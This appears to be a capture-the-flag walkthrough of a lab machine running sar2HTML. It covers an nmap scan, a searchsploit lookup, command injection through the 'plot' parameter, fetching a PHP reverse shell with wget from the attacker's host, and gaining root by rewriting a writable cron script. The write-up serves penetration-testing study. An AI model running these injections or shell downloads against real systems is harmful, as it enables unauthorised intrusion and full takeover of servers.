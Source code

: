 ![image](https://user-images.githubusercontent.com/68326057/117229703-1f834e80-ae39-11eb-8277-970c6416ef8e.png)


# NMAP

```bash
PORT   STATE SERVICE REASON  VERSION

22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:40:be:13:cf:51:7d:d6:a5:9c:64:c8:13:e5:f2:9f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDHy/WJJHLFdbwbJpTyRYhEyj2jZV024UPWIdXfNHxq45uh08jkihv3znZ98caLP/pz352c0ZYD31We0bTSbHyjQce2bSAJHubDYp13hU/P4tbV5GIJ72W2rWkLTslH/SJoHUSqlManB7ZzgVyU2KQ4fnNx/V1XGJYsshquRqTrXKeeal+yQvTC4gnsr8ENIGMq0yJnYxMAasx6kmSc+S+065Mie65xkyisFXo2MQyxzsFdCu2w1bYmb3pegYDm6Y0c/EJP0sxDizXVwkUOS0XSVdGuk3RUYjt5GQ2fL24ZsML6CwN+HD2ZTnD0FK90PQTLuvlp6BoI/ZWvIenNvu63
|   256 8a:4e:ab:0b:de:e3:69:40:50:98:98:58:32:8f:71:9e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFgxutbLnN4K2tj6ZHzrlzTKS+RRuly+RkA0J63JsQFiwyvz4PqA64w/h0Se3gymZV6zJ9XBpS41b6IoEymeiSA=
|   256 e6:2f:55:1c:db:d0:bb:46:92:80:dd:5f:8e:a3:0a:41 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIM+5254x35Vwa2S7X73YLY87Q58qQOD9oQeSKMpmmT0o

80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# WEB

--> /robots.txt

```bash
sar2HTML
```

![image](https://user-images.githubusercontent.com/68326057/117230020-bd771900-ae39-11eb-8333-6ff4dd44e874.png)

```bash
----------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                       |  Path
----------------------------------------------------------------------------------------------------- ---------------------------------
Sar2HTML 3.2.1 - Remote Command Execution                                                            | php/webapps/47204.txt
----------------------------------------------------------------------------------------------------- ---------------------------------
```

![image](https://user-images.githubusercontent.com/68326057/117230659-3034c400-ae3b-11eb-9cae-589f2be3d615.png)

# Test
http://192.168.181.35/sar2HTML/index.php?plot=;id

![image](https://user-images.githubusercontent.com/68326057/117230734-4f335600-ae3b-11eb-9c29-7a43916210e2.png)


# Test -2
```bash
;sleep 5
```
```bash
passed
```

# test3
```bash
;wget ip:8000/k.php  (here k.php is reverse shell)
```

![image](https://user-images.githubusercontent.com/68326057/117231624-3166f080-ae3d-11eb-9db0-6f63750d9b6a.png)


![image](https://user-images.githubusercontent.com/68326057/117231609-2c09a600-ae3d-11eb-81f9-0247f2617333.png)

# user -wwwdata

```bash
go on this site --> http://192.168.181.35/sar2HTML/k.php
```

![image](https://user-images.githubusercontent.com/68326057/117231651-42affd00-ae3d-11eb-9376-be529c41dd64.png)

![image](https://user-images.githubusercontent.com/68326057/117231770-8276e480-ae3d-11eb-846f-e8b81f689927.png)


![image](https://user-images.githubusercontent.com/68326057/117231783-8b67b600-ae3d-11eb-836c-e103d4f781c1.png)

```bash
cat /etc/crontab

```
![image](https://user-images.githubusercontent.com/68326057/117231810-99b5d200-ae3d-11eb-8177-ff7e2b167d67.png)

![image](https://user-images.githubusercontent.com/68326057/117231843-ad613880-ae3d-11eb-8353-2fb9ac6556ca.png)

We can not write but can read and execute.

![image](https://user-images.githubusercontent.com/68326057/117231879-c10c9f00-ae3d-11eb-8be7-a6b308af3e34.png)

![image](https://user-images.githubusercontent.com/68326057/117231901-cc5fca80-ae3d-11eb-810c-5c8215fc401d.png)

But we can read write and execute on write.sh

# root

```bash
in /var/www/html
chmod +x sar2HTML/k.php
echo '''
php sar2HTML/k.php
''' > write.sh
```

wait for few minute and :-

![image](https://user-images.githubusercontent.com/68326057/117232552-02517e80-ae3f-11eb-9505-cb3a339c1a94.png)


